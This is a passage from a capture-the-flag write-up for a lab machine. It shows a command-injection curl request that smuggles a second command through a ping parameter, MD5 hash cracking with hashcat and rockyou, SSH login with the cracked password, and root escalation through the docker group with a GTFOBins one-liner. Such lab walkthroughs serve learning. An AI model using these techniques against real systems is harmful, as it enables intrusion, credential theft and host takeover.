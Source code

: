 We can execute commands on the machine now! I immediately tried to launch a reverse shell but unfortunately that did not work desipte using multiple variations.
So instead, using `curl` requests as my reverse shell I decide to look around the system. Primarily to view the databse we initially found.

```bash
curl "http://10.10.82.85:8081/ping?ip=<<IP>>%0Acat <<REDACTED>>"
```

And we have the names and hashes of our users! They appear to be MD5 hashes and are quickly cracked using hashcat and rockyou.txt

```bash
hashcat -m 0 hash_hold.txt ~/wordlists/passwords/rockyou.txt --show | tee password_hold.txt
```

Now that we have their passwords, we can attempt to login to the machine.

```bash
ssh r00t@$IP
```

And using the password we found for them earlier, we are in!

---

### Priviledge Escalation

Before I even decide to use linpeas to enumerate the system I check for sudo permissions, SUIDs, and groups.
We have no sudo permissions, nothing eye-catching yet in SUIDs but a strange group `docker` that is known to have vunerabilities in it.

Checking [GTFObins](https://gtfobins.github.io/gtfobins/docker/) for a docker exploit and we can use:

```bash
docker run -v /:/mnt --rm -it bash chroot /mnt sh
```
(Note, it takes a while)

And viola! We have root access! And we can navigate to root's home directory (notice the private.txt file too) and we can grab the first 9 letters from the private ssh key.

`private.txt` does not have any flags in it ;)
```
# Life and acomplishments of Alvaro Squalo - Tome I

Memoirs of the most successful digital nomdad finblocktech entrepreneur
in the world.

By himself.

## Chapter 1 - How I became successful
```

And we are **_complete!!_**

---
